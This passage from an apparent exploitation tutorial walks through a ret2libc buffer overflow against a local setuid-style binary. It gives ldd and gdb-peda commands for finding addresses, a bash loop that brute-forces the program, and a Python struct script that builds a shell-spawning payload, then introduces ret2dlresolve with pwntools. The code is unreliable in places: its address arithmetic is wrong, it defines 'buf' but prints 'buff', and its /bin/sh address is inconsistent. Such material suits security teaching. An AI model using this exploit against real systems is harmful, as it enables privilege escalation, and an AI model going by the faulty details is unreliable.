 ```
ldd [binary-name]
```

Say it's \[0xb7e12000] then the final \[/bin/sh] address is **libc address + offset of \[/bin/sh]** \*\*0xb7e12000+x0015ba2a = 0xb7d72a2a

\#For the \[exit] address, we can find it same as we did for \[system].

```
Gdb-peda$:p exit
```

Say it's \[0xb758f234]

\#Lastly, we create a small script that contains all those values and send it in little endian format

```bash
while true; 

do /usr/local/bin/ovrflw $(python -c 'print "A" * [offset]+ "System + Exit + /bin/sh" '); 

done
```

Another way of creating the script using \[struct]

```python
import struct

buf = "A" * 80
system = struct.pack("I" ,0xb759c320)
exit = struct.pack("I" ,0xb758f234)
shell = struct.pack("I" ,0x76beb9e)

print buff + system + exit + shell
```

Run the script and pipe the output to the vulnerable program. Note: if you get an error such as

```
sh: 6: not found
```

This means that the address of \[/bin/sh] is not exact and you need to go up and down with the address. For example, the address we have in this scenario is \[0x76beb9e] all you have to do is to add increments or decrements to the address untill you get the right one. **Side Note** In the above method, sometimes you may need to find the address of \[execl] instead of \[system]. The reasons is sometimes you run out of virtual memory which makes the exploit fails. In that case use \[execl] instead.

#### Exploiting Buffer overflow when NX is enabled using ret2dlresolve

In this technique, we aim to link a system function that's not already linked to the binary (not in called in the code). Our aim is to link the `system('/bin/sh')`. This can be accomplished using pwntools from python wich does contain an implementation of [`Ret2dlresolvePayload`](https://docs.pwntools.com/en/stable/rop/ret2dlresolve.html)
